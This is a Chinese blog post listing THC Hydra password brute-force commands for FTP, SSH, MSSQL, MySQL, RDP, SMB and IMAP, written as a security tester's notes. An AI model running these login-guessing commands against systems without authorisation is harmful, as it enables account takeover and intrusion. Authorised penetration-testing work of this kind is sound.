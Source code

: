 ```yaml
---
layout: post
title: "hydra常见服务爆破命令"
date: 2019-05-11
description: "Web安全"
tag: Web安全
---
```

---

### 前言

整理一下 hydra 端口爆破命令语法 <br>

---


### 目录：

* <a href="#one" target="_self">简介</a>
* <a href="#a1" target="_self">1. 21端口爆破命令</a>
* <a href="#a2" target="_self">2. 22端口爆破命令</a>
* <a href="#a3" target="_self">3. 1433端口爆破命令</a>
* <a href="#a4" target="_self">4. 3306端口爆破命令</a>
* <a href="#a5" target="_self">5. 3389端口爆破命令</a>
* <a href="#a6" target="_self">6. smb服务爆破命令</a>
* <a href="#a7" target="_self">7. imap服务爆破命令</a>
* <a href="#zg" target="_self">总结</a>

-------


### <span id = "one">简介</span>

hydra 也称九头蛇，<br>

是著名黑客组织thc的一款开源的暴力密码破解工具，可以破解多种密码。 <br>

-----


### <span id = "a1">1. 21端口爆破命令</span>

21端口主要用于FTP(File Transfer Protocol，文件传输协议)服务，<br>

FTP服务主要是为了在两台计算机之间实现文件的上传与下载， <br>

命令： <br>
```bash
hydra 192.168.0.1 ftp -L /root/user.txt -P /root/password.txt -vV 
```

-----

### <span id = "a2">2. 22端口爆破命令</span>

22端口是Linux操作系统 SSH 远程登录协议，<br>

类似于Windows的 3389， <br>

命令： <br>
```bash
hydra ssh://192.168.0.1 -L /root/user.txt -P /root/password.txt --vV
```

-----

### <span id = "a3">3. 1433端口爆破命令</span>

1433端口是SQL Server默认的端口，<br>

SQL Server服务使用两个端口:TCP-1433、UDP-1434。<br>

其中1433用于供SQL Server对外提供服务，1434用于向请求者返回SQL Server使用了哪个TCP/IP端口。，<br>

命令： <br>
```bash
hydra 192.168.0.1 mssql -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a4">4. 3306端口爆破命令</span>

3306 是MySQL的默认端口，<br>

命令： <br>
```bash
hydra 192.168.0.1 mysql -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a5">5. 3389端口爆破命令</span>

3389 是Windows远程桌面的默认端口，<br>

命令： <br>
```bash
hydra 192.168.0.1 rdp -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a6">6. smb服务爆破命令</span>

SMB(Server Message Block) 是一种通信协议，<br>

一般使用端口 139，445 <br>

命令： <br>
```bash
hydra smb://192.168.0.1 -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a7">7. imap服务爆破命令</span>

IMAP(Internet Mail Access Protocol，Internet邮件访问协议) ，<br>

使用的端口是 143 <br>

命令： <br>
```bash
hydra 10.36.16.18 imap PLAIN -L /root/password.txt -p secret 
```

-----

-----


### <span id = "zg">总结</span>

做个笔记吧，<br>

使用少都忘了，<br>

在安全测试中还是用的比较多的。

--------
